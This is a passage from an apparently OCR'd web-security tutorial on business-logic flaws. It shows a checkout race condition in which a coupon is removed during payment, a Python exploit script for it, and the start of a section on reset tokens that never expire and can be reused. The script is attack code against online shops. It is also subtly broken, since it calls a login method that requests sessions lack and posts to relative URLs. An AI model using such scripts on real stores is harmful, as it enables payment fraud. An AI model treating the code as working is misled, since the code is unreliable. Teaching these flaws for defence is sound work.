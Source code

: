 #### **2. Broken E-commerce Flow**
**Vulnerable Purchase Process:**
```
1. Add item to cart ($100)
2. Apply coupon (50% off → $50)
3. Proceed to checkout
4. **Remove coupon in another tab**
5. Complete purchase → Charged $50 instead of $100
```

**Exploitation Script:**
```python
import requests
import threading
import time

def race_condition_exploit():
    session = requests.Session()
    session.login('attacker@evil.com', 'password')
    
    # Add item to cart
    session.post('/cart/add', data={'item_id': 123, 'qty': 1})
    
    # Apply coupon
    session.post('/cart/coupon', data={'code': '50OFF'})
    
    def remove_coupon():
        time.sleep(0.5)  # Timing is everything
        session.post('/cart/coupon', data={'code': ''})
    
    # Race condition: remove coupon while processing payment
    thread = threading.Thread(target=remove_coupon)
    thread.start()
    
    # Process payment
    payment_response = session.post('/checkout/process', data={
        'payment_method': 'credit_card',
        'amount': '50'  # Expecting $50 due to coupon
    })
    
    # If vulnerable, charged $50 for $100 item
    if 'order_complete' in payment_response.text:
        print("[!] Race condition exploited - undercharged!")
```

---

## **AUTHENTICATION DESIGN FLAWS** 🔓⚡

### **Broken "Forgot Password" Flow:**
**Vulnerable Design:**
```
1. Enter email → "Password reset link sent"
2. Reset link: /reset?token=123 (NO EXPIRATION)
3. Token can be used multiple times
4. No rate limiting on reset requests
```
